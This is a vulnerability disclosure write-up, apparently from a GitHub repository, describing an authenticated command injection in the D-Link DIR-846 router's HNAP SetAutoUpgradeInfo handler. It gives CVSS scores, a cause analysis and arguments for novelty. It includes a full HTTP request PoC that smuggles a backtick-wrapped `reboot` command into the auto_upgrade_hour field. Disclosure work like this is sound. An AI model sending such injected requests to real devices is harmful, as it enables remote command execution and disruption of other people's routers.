

# D-Link dir-846 wireless router SetAutoUpgradeInfo command injection vulnerability

## 1. Basic information

- Vulnerability Type: Command Injection
- Vulnerability Description: In D-Link dir-846 wireless router, firmware version A1_FW100A43, there is a command injection vulnerability. Its SetAutoUpgradeInfo component implements a security vulnerability in processing the auto_upgrade_hour parameter, allowing remote attackers to use the vulnerability to submit special requests, resulting in command injection, which can lead to the execution of arbitrary system commands.
- Device model:
  - D-Link dir-846 wireless router
  - Firmware version: A1_FW100A43

## 2. Vulnerability Value

- Maturity of Public Information: None
- Order of Public Vulnerability Analysis Report: None
- Stable reproducibility: yes
- Vulnerability Score (refer to CVSS)
  - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
  - V3.1：[9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)
- Exploit Conditions
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory
- Exploit Effect
  - Remote Code Execution (RCE)

## 3. PoC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetAutoUpgradeInfo"
HNAP_AUTH: 11583A1E429EF67F912D6EE6D079E244 1666080008220
Content-Length: 88
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Parentcontrol.html?t=1666079999406
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D; SESSION_ID=2:1598955110:2; uid=57XIVmwX; PrivateKey=BE92EF6F235196D24907CBEE3556D5ED; timeout=97; PHPSESSID=1265348da22b64f02a23502dddc0772e
Cache-Control: max-age=0

{"SetAutoUpgradeInfo":{"auto_upgrade_hour":"`reboot`"}}
 ```

## 4. Vulnerability Principle

When the Web management component receives a POST request, its SetAutoUpgradeInfo component implements a security vulnerability in processing the auto_upgrade_hour parameter, and the auto_upgrade_hour parameter is concatenated to execute the command. Such carefully crafted parameters lead to command injection. Attackers can use this vulnerability to directly achieve the effect of remote arbitrary command execution.

See the figure below for the auto_upgrade_hour parameter location: 

## 5. The basis for judging as a 0-day vulnerability

### 1. Not the same vulnerability as CVE-2021-46314 and CVE-2021-46315

Search the dir-846 keyword in the NVD database and find the vulnerabilities CVE-2021-46314 and CVE-2021-46315. Refer to the github warehouse information that disclosed the vulnerability: https://github.com/doudoudedi/DIR-846_Command_Injection/blob/main/DIR-846_Command_Injection1.md, the trigger code of this vulnerability is located in `SetMasterWLanSettings` and `SetNetworkTomographySettings`, the location The location of the code triggering this vulnerability is different, so it is not the same vulnerability.

### 2. Keyword search

Using `SetAutoUpgradeInfo` as a keyword to search the NVD database, there is no query result.
